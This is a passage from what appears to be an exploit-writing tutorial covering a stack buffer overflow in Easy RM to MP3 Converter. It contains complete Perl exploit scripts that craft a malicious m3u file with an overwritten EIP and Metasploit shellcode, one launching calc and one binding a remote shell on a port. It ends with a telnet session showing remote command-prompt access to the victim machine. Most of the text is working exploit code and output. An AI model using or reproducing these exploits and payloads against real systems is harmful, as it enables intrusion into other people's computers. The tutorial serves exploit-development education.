

Metasploit has a nice payload generator that will help you building shellcode. Payloads come with various options, and (depending on what they need to do), can be small or very large. If you have a size limitation in terms of buffer space, then you might even want to look at multi-staged shellcode, or using specifically handcrafted shellcodes such as this one (32byte cmd.exe shellcode for xp sp2 en). Alternatively, you can split up your shellcode in smaller ‘eggs’ and use a technique called ‘egg-hunting’ to reassemble the shellcode before executing it. Tutorial 8 and 10 talk about egg hunting and omelet hunters.
Let’s say we want calc to be executed as our exploit payload, then the shellcode could look like this :
# windows/exec - 144 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# EXITFUNC=seh, CMD=calc
my $shellcode = "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" .
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" .
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" .
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" .
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" .
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" .
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" .
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" .
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" .
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" .
"\x7f\xe8\x7b\xca";
#
# Exploit for Easy RM to MP3 27.3.700 vulnerability, discovered by Crazy_Hacker
# Written by Peter Van Eeckhoutte
# http://www.corelan.be
# Greetings to Saumil and SK :-)
#
# tested on Windows XP SP3 (En)
#
#
#
my $file= "exploitrmtomp3.m3u";
my $junk= "A" x 26094;
my $eip = pack('V',0x01ccf23a); #jmp esp from MSRMCcodec02.dll
my $shellcode = "\x90" x 25;
# windows/exec - 144 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# EXITFUNC=seh, CMD=calc
$shellcode = $shellcode . "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" .
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" .
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" .
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" .
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" .
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" .
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" .
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" .
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" .
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" .
"\x7f\xe8\x7b\xca";
open($FILE,">$file");
print $FILE $junk.$eip.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
First, turn off the autopopup registry setting to prevent the debugger from taking over. Create the m3u file, open it and watch the application die (and calc should be opened as well).
Boom ! We have our first working exploit !

You may have noticed that I kept 25 nops (0x90) before the shellcode. Don’t worry about it too much right now. As you will continue to learn about exploiting (and when you reach the chapter about writing shellcode), you will learn why this may be required.
You could create other shellcode and replace the “launch calc” shellcode with your new shellcode, but this code may not run well because the shellcode may be bigger, memory locations may be different, and longer shellcode increases the risk on invalid characters in the shellcode, which need to be filtered out.
Let’s say we want the exploit bind to a port so a remote hacker could connect and get a command line.
This shellcode may look like this :
# windows/shell_bind_tcp - 344 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# EXITFUNC=seh, LPORT=5555, RHOST=
"\x31\xc9\xbf\xd3\xc0\x5c\x46\xdb\xc0\xd9\x74\x24\xf4\x5d" .
"\xb1\x50\x83\xed\xfc\x31\x7d\x0d\x03\x7d\xde\x22\xa9\xba" .
"\x8a\x49\x1f\xab\xb3\x71\x5f\xd4\x23\x05\xcc\x0f\x87\x92" .
"\x48\x6c\x4c\xd8\x57\xf4\x53\xce\xd3\x4b\x4b\x9b\xbb\x73" .
"\x6a\x70\x0a\xff\x58\x0d\x8c\x11\x91\xd1\x16\x41\x55\x11" .
"\x5c\x9d\x94\x58\x90\xa0\xd4\xb6\x5f\x99\x8c\x6c\x88\xab" .
"\xc9\xe6\x97\x77\x10\x12\x41\xf3\x1e\xaf\x05\x5c\x02\x2e" .
"\xf1\x60\x16\xbb\x8c\x0b\x42\xa7\xef\x10\xbb\x0c\x8b\x1d" .
"\xf8\x82\xdf\x62\xf2\x69\xaf\x7e\xa7\xe5\x10\x77\xe9\x91" .
"\x1e\xc9\x1b\x8e\x4f\x29\xf5\x28\x23\xb3\x91\x87\xf1\x53" .
"\x16\x9b\xc7\xfc\x8c\xa4\xf8\x6b\xe7\xb6\x05\x50\xa7\xb7" .
"\x20\xf8\xce\xad\xab\x86\x3d\x25\x36\xdc\xd7\x34\xc9\x0e" .
"\x4f\xe0\x3c\x5a\x22\x45\xc0\x72\x6f\x39\x6d\x28\xdc\xfe" .
"\xc2\x8d\xb1\xff\x35\x77\x5d\x15\x05\x1e\xce\x9c\x88\x4a" .
"\x98\x3a\x50\x05\x9f\x14\x9a\x33\x75\x8b\x35\xe9\x76\x7b" .
"\xdd\xb5\x25\x52\xf7\xe1\xca\x7d\x54\x5b\xcb\x52\x33\x86" .
"\x7a\xd5\x8d\x1f\x83\x0f\x5d\xf4\x2f\xe5\xa1\x24\x5c\x6d" .
"\xb9\xbc\xa4\x17\x12\xc0\xfe\xbd\x63\xee\x98\x57\xf8\x69" .
"\x0c\xcb\x6d\xff\x29\x61\x3e\xa6\x98\xba\x37\xbf\xb0\x06" .
"\xc1\xa2\x75\x47\x22\x88\x8b\x05\xe8\x33\x31\xa6\x61\x46" .
"\xcf\x8e\x2e\xf2\x84\x87\x42\xfb\x69\x41\x5c\x76\xc9\x91" .
"\x74\x22\x86\x3f\x28\x84\x79\xaa\xcb\x77\x28\x7f\x9d\x88" .
"\x1a\x17\xb0\xae\x9f\x26\x99\xaf\x49\xdc\xe1\xaf\x42\xde" .
"\xce\xdb\xfb\xdc\x6c\x1f\x67\xe2\xa5\xf2\x98\xcc\x22\x03" .
"\xec\xe9\xed\xb0\x0f\x27\xee\xe7";
As you can see, this shellcode is 344 bytes long (and launching calc only took 144 bytes).
If you just copy&paste this shellcode, you may see that the vulnerable application does not even crash anymore.

This – most likely – indicates either a problem with the shellcode buffer size (but you can test the buffer size, you’ll notice that this is not the issue), or we are faced with invalid characters in the shellcode. You can exclude invalid characters when building the shellcode with metasploit, but you’ll have to know which characters are allowed and which aren’t. By default, null bytes are restricted (because they will break the exploit for sure), but what are the other characters ?
The m3u file probably should contain filenames. So a good start would be to filter out all characters that are not allowed in filenames and filepaths. You could also restrict the character set altogether by using another decoder. We have used shikata_ga_nai, but perhaps alpha_upper will work better for filenames. Using another encoded will most likely increase the shellcode length, but we have already seen (or we can simulate) that size is not a big issue.
Let’s try building a tcp shell bind, using the alpha_upper encoder. We’ll bind a shell to local port 4444. The new shellcode is 703 bytes.
# windows/shell_bind_tcp - 703 bytes
# http://www.metasploit.com
# Encoder: x86/alpha_upper
# EXITFUNC=seh, LPORT=4444, RHOST=
"\x89\xe1\xdb\xd4\xd9\x71\xf4\x58\x50\x59\x49\x49\x49\x49" .
"\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33\x30\x56" .
"\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41" .
"\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42" .
"\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b\x4c\x42" .
"\x4a\x4a\x4b\x50\x4d\x4b\x58\x4c\x39\x4b\x4f\x4b\x4f\x4b" .
"\x4f\x43\x50\x4c\x4b\x42\x4c\x51\x34\x51\x34\x4c\x4b\x47" .
"\x35\x47\x4c\x4c\x4b\x43\x4c\x44\x45\x44\x38\x45\x51\x4a" .
"\x4f\x4c\x4b\x50\x4f\x42\x38\x4c\x4b\x51\x4f\x51\x30\x43" .
"\x31\x4a\x4b\x50\x49\x4c\x4b\x46\x54\x4c\x4b\x43\x31\x4a" .
"\x4e\x46\x51\x49\x50\x4a\x39\x4e\x4c\x4d\x54\x49\x50\x44" .
"\x34\x45\x57\x49\x51\x49\x5a\x44\x4d\x43\x31\x49\x52\x4a" .
"\x4b\x4a\x54\x47\x4b\x51\x44\x51\x34\x47\x58\x44\x35\x4a" .
"\x45\x4c\x4b\x51\x4f\x47\x54\x43\x31\x4a\x4b\x45\x36\x4c" .
"\x4b\x44\x4c\x50\x4b\x4c\x4b\x51\x4f\x45\x4c\x45\x51\x4a" .
"\x4b\x44\x43\x46\x4c\x4c\x4b\x4d\x59\x42\x4c\x46\x44\x45" .
"\x4c\x43\x51\x48\x43\x46\x51\x49\x4b\x45\x34\x4c\x4b\x50" .
"\x43\x50\x30\x4c\x4b\x51\x50\x44\x4c\x4c\x4b\x42\x50\x45" .
"\x4c\x4e\x4d\x4c\x4b\x51\x50\x45\x58\x51\x4e\x43\x58\x4c" .
"\x4e\x50\x4e\x44\x4e\x4a\x4c\x50\x50\x4b\x4f\x48\x56\x43" .
"\x56\x50\x53\x45\x36\x45\x38\x50\x33\x50\x32\x42\x48\x43" .
<...>
"\x50\x41\x41";
Let’s use this shellcode. The new exploit looks like this : P.S. I have manually broken the shellcode shown here. So if you copy & paste the exploit it will not work. But you should know by now how to make a working exploit.
#
# Exploit for Easy RM to MP3 27.3.700 vulnerability, discovered by Crazy_Hacker
# Written by Peter Van Eeckhoutte
# http://www.corelan.be
# Greetings to Saumil and SK :-)
#
# tested on Windows XP SP3 (En)
#
#
#
my $file= "exploitrmtomp3.m3u";
my $junk= "A" x 26094;
my $eip = pack('V',0x01ccf23a); #jmp esp from MSRMCcodec02.dll
my $shellcode = "\x90" x 25;
# windows/shell_bind_tcp - 703 bytes
# http://www.metasploit.com
# Encoder: x86/alpha_upper
# EXITFUNC=seh, LPORT=4444, RHOST=
$shellcode=$shellcode."\x89\xe1\xdb\xd4\xd9\x71\xf4\x58\x50\x59\x49\x49\x49\x49" .
"\x43\x43\x43\x43\x43\x43\x51\x5a\x56\x54\x58\x33\x30\x56" .
"\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41" .
"\x42\x41\x41\x42\x54\x00\x41\x51\x32\x41\x42\x32\x42\x42" .
"\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x4b\x4c\x42" .
"\x4a\x4a\x4b\x50\x4d\x4b\x58\x4c\x39\x4b\x4f\x4b\x4f\x4b" .
"\x4f\x43\x50\x4c\x4b\x42\x4c\x51\x34\x51\x34\x4c\x4b\x47" .
"\x35\x47\x4c\x4c\x4b\x43\x4c\x44\x45\x44\x38\x45\x51\x4a" .
"\x4f\x4c\x4b\x50\x4f\x42\x38\x4c\x4b\x51\x4f\x51\x30\x43" .
"\x31\x4a\x4b\x50\x49\x4c\x4b\x46\x54\x4c\x4b\x43\x31\x4a" .
"\x4e\x46\x51\x49\x50\x4a\x39\x4e\x4c\x4d\x54\x49\x50\x44" .
"\x34\x45\x57\x49\x51\x49\x5a\x44\x4d\x43\x31\x49\x52\x4a" .
"\x4b\x4a\x54\x47\x4b\x51\x44\x51\x34\x47\x58\x44\x35\x4a" .
"\x45\x4c\x4b\x51\x4f\x47\x54\x43\x31\x4a\x4b\x45\x36\x4c" .
"\x4b\x44\x4c\x50\x4b\x4c\x4b\x51\x4f\x45\x4c\x45\x51\x4a" .
"\x4b\x44\x43\x46\x4c\x4c\x4b\x4d\x59\x42\x4c\x46\x44\x45" .
"\x4c\x43\x51\x48\x43\x46\x51\x49\x4b\x45\x34\x4c\x4b\x50" .
"\x43\x50\x30\x4c\x4b\x51\x50\x44\x4c\x4c\x4b\x42\x50\x45" .
"\x4c\x4e\x4d\x4c\x4b\x51\x50\x45\x58\x51\x4e\x43\x58\x4c" .
"\x4e\x50\x4e\x44\x4e\x4a\x4c\x50\x50\x4b\x4f\x48\x56\x43" .
"\x56\x50\x53\x45\x36\x45\x38\x50\x33\x50\x32\x42\x48\x43" .
"\x47\x43\x43\x47\x42\x51\x4f\x50\x54\x4b\x4f\x48\x50\x42" .
"\x48\x48\x4b\x4a\x4d\x4b\x4c\x47\x4b\x50\x50\x4b\x4f\x48" .
"\x56\x51\x4f\x4d\x59\x4d\x35\x45\x36\x4b\x31\x4a\x4d\x43" .
"\x38\x43\x32\x46\x35\x43\x5a\x44\x42\x4b\x4f\x4e\x30\x42" .
"\x48\x48\x59\x45\x59\x4c\x35\x4e\x4d\x50\x57\x4b\x4f\x48" .
"\x56\x46\x33\x46\x33\x46\x33\x50\x53\x50\x53\x50\x43\x51" .
"\x43\x51\x53\x46\x33\x4b\x4f\x4e\x30\x43\x56\x45\x38\x42" .
"\x31\x51\x4c\x42\x46\x46\x33\x4c\x49\x4d\x31\x4a\x35\x42" .
"\x48\x4e\x44\x44\x5a\x44\x30\x49\x57\x50\x57\x4b\x4f\x48" .
"\x56\x43\x5a\x44\x50\x50\x51\x51\x45\x4b\x4f\x4e\x30\x43" .
"\x58\x49\x34\x4e\x4d\x46\x4e\x4b\x59\x50\x57\x4b\x4f\x4e" .
"\x36\x50\x53\x46\x35\x4b\x4f\x4e\x30\x42\x48\x4d\x35\x50" .
"\x49\x4d\x56\x50\x49\x51\x47\x4b\x4f\x48\x56\x50\x50\x50" .
"\x54\x50\x54\x46\x35\x4b\x4f\x48\x50\x4a\x33\x45\x38\x4a" .
"\x47\x44\x39\x48\x46\x43\x49\x50\x57\x4b\x4f\x48\x56\x50" .
"\x55\x4b\x4f\x48\x50\x42\x46\x42\x4a\x42\x44\x45\x36\x45" .
"\x38\x45\x33\x42\x4d\x4d\x59\x4b\x55\x42\x4a\x46\x30\x50" .
"\x59\x47\x59\x48\x4c\x4b\x39\x4a\x47\x43\x5a\x50\x44\x4b" .
"\x39\x4b\x52\x46\x51\x49\x50\x4c\x33\x4e\x4a\x4b\x4e\x47" .
"\x32\x46\x4d\x4b\x4e\x51\x52\x46\x4c\x4d\x43\x4c\x4d\x42" .
"\x5a\x50\x38\x4e\x4b\x4e\x4b\x4e\x4b\x43\x58\x42\x52\x4b" .
"\x4e\x4e\x53\x42\x36\x4b\x4f\x43\x45\x51\x54\x4b\x4f\x49" .
"\x46\x51\x4b\x46\x37\x46\x32\x50\x51\x50\x51\x46\x31\x42" .
"\x4a\x45\x51\x46\x31\x46\x31\x51\x45\x50\x51\x4b\x4f\x48" .
"\x50\x43\x58\x4e\x4d\x4e\x39\x45\x55\x48\x4e\x51\x43\x4b" .
"\x4f\x49\x46\x43\x5a\x4b\x4f\x4b\x4f\x47\x47\x4b\x4f\x48" .
"\x50\x4c\x4b\x46\x37\x4b\x4c\x4c\x43\x49\x54\x45\x34\x4b" .
"\x4f\x4e\x36\x50\x52\x4b\x4f\x48\x50\x43\x58\x4c\x30\x4c" .
"\x4a\x44\x44\x51\x4f\x46\x33\x4b\x4f\x48\x56\x4b\x4f\x48" .
"\x50\x41\x41";
open($FILE,">$file");
print $FILE $junk.$eip.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
Create the m3u file, open it in the application. Easy RM to MP3 now seems to hang :
Telnet to this host on port 4444 :
root@bt:/# telnet 192.168.0.197 4444
Trying 192.168.0.197...
Connected to 192.168.0.197.
Escape character is '^]'.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Program Files\Easy RM to MP3 Converter>
Pataboom !
Now go out and build your own exploits. Don’t forget to make yourself some nice ascii art, get a l33t name, and send your greetings to me (corelanc0d3r) :-)